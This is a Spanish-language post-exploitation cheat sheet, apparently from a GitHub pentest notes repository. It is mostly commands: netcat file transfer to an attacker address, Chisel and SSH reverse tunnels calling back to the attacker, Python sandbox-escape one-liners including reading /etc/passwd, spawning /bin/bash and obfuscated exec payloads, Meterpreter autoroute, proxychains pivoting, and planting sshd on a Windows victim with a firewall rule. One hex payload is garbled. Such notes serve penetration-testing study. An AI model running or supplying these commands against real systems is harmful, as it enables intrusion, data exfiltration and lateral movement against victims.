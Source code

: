 # Postexplotacion

1. [Escalado de privilegios](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#Escalado-de-privilegios)
	* [Linux](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Linux.md)
	* [Windows](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Windows.md)
1. [Transferencia de archivos](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#transferencia-de-archivos)
1. [Port Forwarding](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#port-forwarding)
1. [Saltando sandbox](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#saltando-sandbox)
1. [Meterpreter](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#meterpreter)
1. [Pivoteando](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#pivoteando)

## Escalado de privilegios

* [Linux](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Linux.md)
* [Windows](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Windows.md)

## Transferencia de archivos

### Netcat

```bash
#envio archivo
nc x.x.x.x port < file.txt
#recibo archivo
nc -lvnp port > file.txt
```

## Port Forwarding

Para mandar un servicio que esta corriendo solo para el host local, hacia hosts remotos (o red local a red externa). Tambien puede servir para servicios que necesitan de GUI y no se pueden levantar desde una shell

### SSH

```bash
ssh -R remotePort:localhost:localPort x.x.x.x
```

### Chisel

```bash
#atacante
$chisel server -p 9999 --reverse
#victima
$chisel client IPAtacante:9999 R:RPort:127.0.0.1:LPort
```

## Saltando sandbox

### Python

#### OS Command execution

```bash
os.system("ls")
os.popen("ls").read()
commands.getstatusoutput("ls") 
commands.getoutput("ls")
commands.getstatus("file/path")
subprocess.call("ls", shell=True)
subprocess.Popen("ls", shell=True)
pty.spawn("ls")
pty.spawn("/bin/bash")
platform.popen("ls").read()
open("/etc/passwd").read()
open('/var/www/html/input', 'w').write('123')
```

#### Octal

```bash
exec("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\154\163\47\51")
```

#### Hexa
```bash
exec("\x5f\x5f\x69\x6d\xIf youca70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x6c\x73\x27\x29")
```

#### b64

```bash
exec('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2xzJyk='.decode("base64")) #
```

Py2
```bash
exec(__import__('base64').b64decode('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2xzJyk='))
```

## Meterpreter

	* [Meterpreter]

## Pivoteando

### Meterpreter

```bash
>run autoroute -s IP_red_victima/MASK

#sshutle
```

### General

```
1) transferir Chisel a la maquina victima

2) en maquina atacante
$./chisel server -p 1337 --reverse

3) en maquina victima
$./chisel client 192.168.1.1:1337 R:socks #linux
>chisel.exe client 192.168.1.1:1337 R:socks #windows

4) si todo correcto en maquina atacante recibimos
2021/01/15 17:11:47 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening

5) agregamos esta linea al /etc/proxychains.conf
socks5 127.0.0.1 1080 #el puerto de 4

6) tiramos comandos a traves de proxychains
#ejemplo
$proxychains nmap -sS IP_victima2
```

### Windows

```powershell
//Descomprimir el archivo
powershell -command "Expand-Archive 'C:\openssh.zip' c:\ruta\"

//Instalar el openSSH
powershell -ExecutionPolicy Bypass -File c:\install-sshd.ps1

//añadir reglas al firewall
powershell -Command "New-NetFirewallRule -Name sshd -DisplayName 'OpenSSH Server (sshd)' -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 22"

//empezar el sshd service
net start sshd

//Desde el host, linux en este caso
ssh -ACv -D <tunnel_port> <windows-user>@<windows-ip>
```